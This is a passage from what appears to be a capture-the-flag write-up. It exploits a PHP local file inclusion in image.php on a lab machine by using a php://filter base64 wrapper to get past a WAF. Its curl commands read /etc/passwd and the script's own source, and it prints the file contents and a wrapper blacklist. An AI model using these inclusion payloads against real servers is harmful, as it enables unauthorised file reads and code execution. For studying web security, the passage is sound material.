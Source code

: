 Testing if we can include other files `../` seems to be blocked by a waf but we are successfull using the php wrapper.

```
$ curl -s 'http://10.129.188.245/image.php?img=php://filter/convert.base64-encode/resource=/etc/passwd' | base64 -d
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
aaron:x:1000:1000:aaron:/home/aaron:/bin/bash
```

Looking at the source code of `image.php` itself we see how the blacklist is implemented. Another interesting thing is that, if we pass the blacklist `include` is called on the file. This means any php code between the `<?php xxx ?>` tags will be executed regardless of the file extension.

```
$curl -s 'http://10.129.189.14/image.php?img=php://filter/convert.base64-encode/resource=image.php' | base64 -d
```

```php
<?php

function is_safe_include($text)
{
    $blacklist = array("php://input", "phar://", "zip://", "ftp://", "file://", "http://", "data://", "expect://", "https://", "../");

    foreach ($blacklist as $item) {
        if (strpos($text, $item) !== false) {
            return false;
        }
    }
    return substr($text, 0, 1) !== "/";

}

if (isset($_GET['img'])) {
```